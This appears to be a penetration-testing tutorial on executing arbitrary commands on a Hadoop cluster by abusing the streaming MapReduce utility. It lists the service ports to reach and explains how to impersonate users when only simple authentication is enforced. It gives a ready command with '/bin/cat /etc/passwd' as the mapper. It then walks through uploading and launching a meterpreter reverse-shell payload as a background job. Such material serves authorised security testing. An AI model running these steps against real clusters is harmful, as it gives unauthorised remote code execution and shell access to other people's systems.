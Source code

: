 Executing remote commands
=========================

Description
-----------
This tutorial explains how to execute arbitrary commands on an Hadoop cluster

Prerequisites
-------------
1. A **working attack environment**: Hadoop binaries and the target cluster configuration are needed. Follow the following tutorials to set them up: 
  * [Setting up an Hadoop attack environment](../Setting up an Hadoop attack environment)
  * [Getting the target environment configuration](../Getting the target environment configuration)  
  
2. Then you need to be able to access the following **Hadoop services through the network**:
  * **YARN ResourceManager**: usually on ports 8030, 8031, 8032, 8033 or 8050
  * **NameNode metadata service** in order to [browse the HDFS datalake](../Browsing the HDFS datalake): usually on port 8020
  * **DataNode data transfer service** in order to upload/download file: usually on port 50010
  
3. Finally you have to look up which **authentication level** is deployed, the cluster you are attacking might have:
  * Either **simple authentication** enforced: in that case you don't need credentials, you can simply specify which user you want to be with the `HADOOP_USER_NAME`
  * Or **Kerberos authentication** enforced (called ["Hadoop Secure Mode"](https://hadoop.apache.org/docs/r2.7.2/hadoop-project-dist/hadoop-common/SecureMode.html)): in that case you need proper Kerberos tickets
  
  
Executing a single command
--------------------------
1. Go to the directory where you decompressed Hadoop binaries (`/opt` in the tutorial):
  ```
  $ cd /opt/hadoop-2.7.3/
  ```
  
2. Call the Hadoop streaming utility:
  ```
  $ hadoop jar share/hadoop/tools/lib/hadoop-streaming-2.7.3.jar -input <a non empty file on HDFS> -output <a nonexistant directory on HDFS> -mapper <your single command> -reducer NONE
  ```
  
Some explanations might be useful:
  * `-input <a non empty file on HDFS>`: this will be provided as input to MapReduce for the command to be executed, just put at least a character in that file, this file is useless for our objective 
  * `-output <a nonexistant directory on HDFS>`: this directory will be used by MapReduce to write the result, either `_SUCCESS` or failure
  * `-mapper <your single command>`: the command to execute, for instance `"/bin/cat /etc/passwd"`. The output result will be written in the `-output` directory
  * `-reducer NONE`: there is no need for a reducer to execute a single command, a mapper is enough  

Note that for certain distributions you might need to put **additional parameters** (with `-D`) to submit a MapReduce job, for instance on **HortonWorks cluster** you need the **`-Dhdp.version=<version>`** option: you can find this information when you grab the target cluster configuration.  

Then when the job has terminated its execution: 
* Check the output result:
  ```
  $ hadoop fs -ls <a nonexistant directory on HDFS>
  ```
  
* Display the output:
  ```
  $ hadoop fs -cat <a nonexistant directory on HDFS>/part-00000
  ```
  
  
Executing a meterpreter
-----------------------
Due to the [limitations](#Limitations) inherent to Hadoop, it is recommended to **use a `reverse shell` payload.**
```
$ hadoop jar share/hadoop/tools/lib/hadoop-streaming-2.7.3.jar -input <a non empty file on HDFS> -output <a nonexistant directory on HDFS> -mapper <your executable meterpreter path on HDFS> -reducer NONE -file <your executable meterpreter path on your local attacking environment> -background
```
Again, some explanations:
  * `-file <your executable meterpreter path on your local attacking environment>`: your local meterpreter executable will be uploaded on HDFS, for instance `"/root/foobar/meterpreter.elf"`
  * `-mapper <your executable meterpreter>`: an HDFS path to your executable meterpreter, by default put `"./meterpreter.elf"`
  * `-background`: this starts the job without waiting for its completion  

Then **start your meterpreter listener**, wait **few dozen of seconds** (yes it is quite slow) before gaining your **meterpreter session**.  
  
  
Limitations
-----------
Due to the **distributed nature of a MapReduce job**, it is not possible to specify on which node you want to execute your payload. There is **no mechanism** ensuring that the payload you will launch on two successive jobs will execute on the **same cluster member**.  
As a consequence you can't know beforehand the server IP where your payload will be executed: so just use a `reverse shell` payload and gently wait for your shell to arrive.
  
  
References
----------
Check the [Hadoop Streaming page](https://hadoop.apache.org/docs/r2.7.2/hadoop-streaming/HadoopStreaming.html) for any additional help